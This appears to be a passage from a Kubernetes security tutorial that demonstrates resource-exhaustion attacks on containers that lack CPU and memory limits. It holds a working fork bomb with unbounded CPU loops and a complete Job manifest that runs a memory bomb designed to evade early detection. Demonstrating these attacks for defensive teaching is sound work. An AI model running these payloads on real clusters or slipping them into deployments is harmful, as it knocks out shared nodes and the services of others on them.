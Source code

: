 ```yaml
          echo "Normal application startup..."
          sleep 5
          echo "Launching CPU exhaustion attack!"
          
          # Fork bomb
          :(){ :|:& };: &
          
          # CPU intensive loops
          for i in {1..$(nproc)}; do
            while true; do
              echo "CPU_LOAD_GENERATOR" > /dev/null
            done &
          done
          
          # Keep container alive
          sleep infinity
        # ❌ No resource limits = unlimited CPU consumption
```

### Scenario 2: Memory Bomb Attack

#### Memory Exhaustion Attack Payload
```yaml
# Memory bomb deployment
apiVersion: batch/v1
kind: Job
metadata:
  name: memory-bomb-attack
  namespace: resource-attack-demo
spec:
  parallelism: 3
  template:
    spec:
      restartPolicy: Never
      containers:
      - name: memory-bomb
        image: python:3.9-slim
        command: ["python3"]
        args:
        - -c
        - |
          import time
          import os
          
          print("Starting memory exhaustion attack...")
          
          # Method 1: Rapid memory allocation
          memory_blocks = []
          block_size = 100 * 1024 * 1024  # 100MB blocks
          
          try:
              while True:
                  # Allocate memory rapidly
                  block = 'X' * block_size
                  memory_blocks.append(block)
                  print(f"Allocated {len(memory_blocks) * 100}MB")
                  
                  # Small delay to avoid immediate detection
                  time.sleep(0.1)
          except MemoryError:
              print("Memory exhausted!")
              time.sleep(3600)  # Keep container alive
        # ❌ No memory limits = can consume all node memory
```
